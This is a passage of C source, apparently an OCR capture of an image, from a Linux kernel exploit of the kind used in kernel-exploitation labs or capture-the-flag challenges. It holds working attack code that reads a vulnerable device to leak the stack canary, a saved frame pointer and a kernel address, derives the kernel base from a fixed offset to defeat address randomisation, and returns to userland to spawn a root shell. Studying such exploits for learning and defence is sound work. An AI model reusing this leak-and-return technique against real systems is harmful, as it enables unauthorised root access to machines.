 ```c
    );
    puts("[*] Saved state");
}

void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
        while(1) {
            puts("Done");    
        }
    } else {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

uint64_t shell_addr = (uint64_t)&get_shell;

void my_jump(void) { // needed because of stack alignment
    __asm__ volatile(
        ".intel_syntax noprefix;"
        "mov rax, qword ptr [shell_addr];"
        "push rax;"
        "ret;"
        ".att_syntax;"
         : /* no outputs */
        : /* no inputs */
        : "rax"
    );
}

void leak(void){
    uint32_t n = 200;
    char leak[n]; // Unsigned long is 8 bytes on 64-bit. Necessary to contain 8 byte canary
    memset(leak, 'A', sizeof(leak));
    printf("[*] Size of leak: %lu\n", sizeof(leak));
    ssize_t success = read(global_fd, leak, sizeof(leak));
    memcpy(&canary, &leak[100], sizeof(canary));
    memcpy(&rbp_leak, &leak[108], sizeof(rbp_leak));
    uint64_t kleak = 0;
    memcpy(&kleak, &leak[116], sizeof(kleak));

    if (success == 0) {
        puts("[*] raw_copy_to_user succeeded");
    }

    printf("[*] Canary: 0x%lx\n", canary);

    kbase = kleak - 0x7BF24C;

    printf("[*] rbp_leak: 0x%lx\n", rbp_leak);
    printf("[*] Kleak:  0x%lx\n", kleak);
    printf("[*] Kbase: 0x%lx\n", kbase);
    printf("[*] User rsp: 0x%lx\n", user_sp);
}

uint64_t user_rip = (uint64_t )my_jump;

void printer_func(void) {
    puts("Hello userland");
}
```